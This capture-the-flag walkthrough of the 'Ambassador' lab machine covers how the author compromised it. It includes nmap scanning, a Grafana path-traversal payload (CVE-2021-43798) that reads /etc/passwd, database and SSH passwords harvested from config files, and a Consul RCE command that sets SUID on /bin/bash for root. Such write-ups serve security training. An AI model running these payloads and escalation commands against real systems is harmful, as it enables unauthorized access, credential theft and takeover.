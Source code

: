 # Ambassador, Difficulty: Medium
## Author : Arkoov
![Ambassador](https://user-images.githubusercontent.com/86551419/211179555-54ffa8ba-dc18-49c2-9798-b1ac06f0ccbe.png)

# Walkthrough (User):
1. Start by enumerating the machine using nmap

> command

```sh
nmap -sT -A 10.10.11.183
```

> result


![image](https://user-images.githubusercontent.com/86551419/211159598-e581f080-9224-43d8-8eb9-31d97f090ea7.png)


3. the result shows open port for `ssh(22), apacheserver(80), mysql(3306),and ppp(3000)`. we can start by visiting the port in the machine.

> result 

![image](https://user-images.githubusercontent.com/86551419/211185429-505d7f67-c4ed-48d8-8fb8-e8df725dc7d6.png)


4. There's nothing that we can use in port `80`.In port `3000` we are redirected to login page of Grafana. at the bottom of the page we found the version of Grafana that is currently running `v8.20`
> result

![image](https://user-images.githubusercontent.com/86551419/211161853-43db6a5a-9995-4b83-97c6-c58e48802885.png)


5. After searching about Grafana we found an interesting exploit to try. The exploit is for Grafana's `Unauthorized Arbitrary File Read Vulnerability (CVE-2021-43798)`. This vulnerability affects Grafana `8.0.0-beta1 to 8.3.0.` which includes the machine's version.
> reference

![image](https://user-images.githubusercontent.com/86551419/211160507-dfdf466a-6c5b-48e4-9e46-a23b35abcccf.png)

6. We can try using the exploit by creating a txt file containing url of the grafana web service alongside with the port `http://10.10.11.183:3000` and start the exploit using the command below:

> code

```sh
git clone https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798
cd exploit-grafana-CVE-2021-43798
pip install -r requirements.txt
```

> result

![image](https://user-images.githubusercontent.com/86551419/211161617-4ffb0de4-15c2-401f-9087-2e3cec3854bc.png)

7. when the bruteforcing is done. we get `http://10.10.11.183:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd` which after checking it in the website we can access the /etc/passwd content.

> result 

![image](https://user-images.githubusercontent.com/86551419/211162119-48381a0b-3e56-41e1-8f1f-43cddfaff955.png)

![image](https://user-images.githubusercontent.com/86551419/211161753-493949ab-da0a-4a73-8ebf-1901388f2dfd.png)

8. There's also a few files that successfully found in the server which are dumped to a folder.

> result

![image](https://user-images.githubusercontent.com/86551419/211162078-2471f642-6410-45ff-a419-00a2d8389f12.png)

9. inside `grafana.ini` we found user admin credential for grafana web server. But after logging in we still could'nt find any clue.
> result 
![image](https://user-images.githubusercontent.com/86551419/211162364-14f6e9e6-f0dd-420d-a947-837d0d51c3c3.png)

10. after checking what dbms is used in `grafana.db`. we found that the database file is sqlite database `version 3.x`. we can open the sqlite file using sqlitebrowser.

> result

![image](https://user-images.githubusercontent.com/86551419/211162502-3a924ce8-cdc9-4e9b-aeb4-624c1e030829.png)

11. inside the database file we have multiple tables and inside data_source table we found a mysql user credential `user: grafana and password: dontStandSoCloseToMe63221!`

> result

![image](https://user-images.githubusercontent.com/86551419/211162613-765729e7-8de0-4198-a9b7-61e2f40b4312.png)

![image](https://user-images.githubusercontent.com/86551419/211162656-d43d0ca7-f7ca-44c2-b1b5-f094ab683932.png)

12. We can open mysql command line interface using the code below:

> code
```sh
mysql -h 10.10.11.183 -u grafana -p -P 3306
```
> result

![image](https://user-images.githubusercontent.com/86551419/211162937-8c7ad3c5-80e9-4065-9251-3efacc5d71fe.png)

![image](https://user-images.githubusercontent.com/86551419/211162953-4cf754d9-fca5-4cc2-89db-17b892186857.png)

13. Inside whackywidget database there's a users table which contains a developer credential
username: developer and password: YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== (base64 encoded)

> result

![image](https://user-images.githubusercontent.com/86551419/211163000-5635f334-14d7-4361-ab84-48016625b82e.png)

![image](https://user-images.githubusercontent.com/86551419/211163007-e3357c7d-39ec-4006-8c3a-d79e89a71b23.png)

14. Using the command below we decode the password and try to login into ssh using the credential

> code

```sh
echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
```
```sh
  ssh developer@10.10.11.183
```
> result

![image](https://user-images.githubusercontent.com/86551419/211163106-08c36c0d-be31-462d-9a5f-938f610f2703.png)

![image](https://user-images.githubusercontent.com/86551419/211163197-f20a5fb1-4a06-45fc-8539-e3bc6b39b879.png)

15. with that, we have successfully captured the user flag!!

> result

![image](https://user-images.githubusercontent.com/86551419/211163226-be452390-a92f-49dc-a757-550f89354a4a.png)

# Walkthrough (Root):

1. Starting in privilege escalation we tried to check for root files that can be executed by user using command `sudo -l` but nothing came out.

> result

![image](https://user-images.githubusercontent.com/86551419/211178541-ba4c7cdf-3060-45a4-abdf-58c70a0cc407.png)

2. After searching around the directory, we stumbled upon a directory in /opt named my-app. In the directory we found a .git file that we can access using `git show` to list all the commits so far.

> result

![image](https://user-images.githubusercontent.com/86551419/211178643-3c7e8220-d19b-45ab-bae3-9c5987750ed8.png)

3. Theres a consul token inside the commit. after searching about consul in the web we found a known vulnerability int the services API. with the vulnerability we can execute a remote command(RCE). 

> Reference
Link: https://github.com/owalid/consul-rce

![image](https://user-images.githubusercontent.com/86551419/211179081-5e454776-95ad-4de5-b976-e182a9e78673.png)

4. After trying it in our machine using the token inside the commit, we will be able to change the permission for /bin/bash with `chmod +s /bin/bash`:

> command
```sh
consul_rce.py -th 127.0.0.1 -tp 8500 -ct bb03b43b-1d81-d62b-24b5-39540ee469b5 -c "/bin/bash -c 'chmod +s /bin/bash'"
```
> result

![image](https://user-images.githubusercontent.com/86551419/211179351-ac64af95-af27-4dd6-8ce7-d55a05fc91a2.png)

5. Done, next we just need to execute `/bin/bash` to get the root flag. 
> command
```sh
/bin/bash -p
```
> result

![image](https://user-images.githubusercontent.com/86551419/211179416-119ccbd1-0b12-4ac7-b89d-d64b0dcaca4a.png)

![image](https://user-images.githubusercontent.com/86551419/211179421-354ad6ba-3765-4b38-841b-67b0d496079d.png)

6. With the root flag found, we have successfully pwned the machine. This machine is pretty straight forward compared to another machine with the same difficulty. Happy Hacking!!

## Reference Link:
1. https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798
2. https://github.com/owalid/consul-rce
